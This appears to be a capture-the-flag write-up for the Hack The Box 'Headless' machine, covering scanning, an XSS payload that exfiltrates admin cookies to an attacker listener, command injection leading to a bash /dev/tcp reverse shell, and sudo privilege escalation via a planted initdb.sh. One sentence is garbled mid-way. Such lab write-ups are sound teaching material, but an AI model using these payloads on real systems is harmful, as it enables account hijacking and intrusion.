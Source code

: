 ```yaml
---
title: HTB-Headless
draft: false
tags:
  - htb
  - linux
  - sudo
  - xss
  - xss-cookie-stealing
  - cme
---
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/Headless.png)

## Information Gathering
### Rustscan

Rustscan discovers SSH and port 5000 open:

```bash
┌──(yoon㉿kali)-[~/Documents/htb/headless]
└─$ sudo rustscan --addresses 10.10.11.8 --range 1-65535
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍
<snip>
Host is up, received echo-reply ttl 63 (0.30s latency).
Scanned at 2024-05-15 00:28:08 EDT for 0s

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
5000/tcp open  upnp    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.76 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (116B)
```

## Enumeration
### HTTP - TCP 5000
HTTP is running on port 5000 and the websites is still under construction.

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image.png)

**/support** pages shows form for contacting support:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-1.png)

Directory Bruteforcing via Feroxbuster discovers a new path: /dashboard:

`sudo feroxbuster -u http://10.10.11.8:5000 -C 404`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-2.png)

**/dashboard** access is unauthorized:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-3.png)

In order to gain access to the dashboard, we will first need to login to the application. we would be able to exploit vulnerabilities such as XSS from the support page. By exploiting XSS, we can steal admin user cookie, and use it to sign-in as the administrator. 

## XSS Cookie Stealing
We will follow this [article](https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e)for XSS Cookie stealing.

Let's first intercept the request connection to /support form using Burp Suite:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-4.png)

Utilizing the following code, we will be able to obtain user's cookie and forward it to my listener:

```html
<script>var i=new Image(); i.src="http://10.10.14.14:8000/?cookie="+btoa(document.cookie);</script>
```

From some investigation, it seems like XSS works when the payload is placed under both **User-Agent** and **message** parameter as such below:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-5.png)

Running the request with payload, we can obtain cookie value:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-6.png)

Let's decrypt the cookie using base64:

`echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-7.png)

Using the discovered cookie, let's sign-in to dashboard:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-8.png)


Now we can successfully sign-in to Administrator Dashboard:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-9.png)

## RCE to Reverse Shell

After intercepting the request for "Generate Report" using Burp Suite, we can modify the "date" parameter and perform Remote Code Execution.

Below, it shows RCE command for `pwd` command via `&& pwd`:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-10.png)

`pwd` command successfully runs:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-11.png)


### Reverse shell

Let's escalate this RCE vulnerability to Reverse shell.

We will first create file named **rev.sh** containing the following piece of code:

`bash -i >& /dev/tcp/10.10.14.14/1337 0>&1`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-12.png)

We will also prepare Python http server for transferring **rev.sh** over to the host machine:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-13.png)

Now, let's modify the date parameter so that it will download rev.sh from the attacking xt](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-14.png)


On our netcat listener, we get a shell as **dvir**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-15.png)

## Privesc: dvir to root



Running command `sudo -l` shows that **/usr/bin/syscheck** can be ran as the root:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-16.png)


This script uses an `if` statement to check if a process named "initdb.sh" is running using `pgrep`. If the process is not found (`! /usr/bin/pgrep -x "initdb.sh" &>/dev/null`), it prints a message indicating that the database service is not running and starts it by executing `./initdb.sh`.

```bash
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

Let's create initdb.sh and echo bash command in it as such:

```bash
echo "chmod u+s /bin/bash" > initdb.sh
chmod +x initdb.sh
```


![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-17.png)

We can obtain root privilege through `/bin/bash -p` command after running syscheck:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-18.png)




## References
- https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e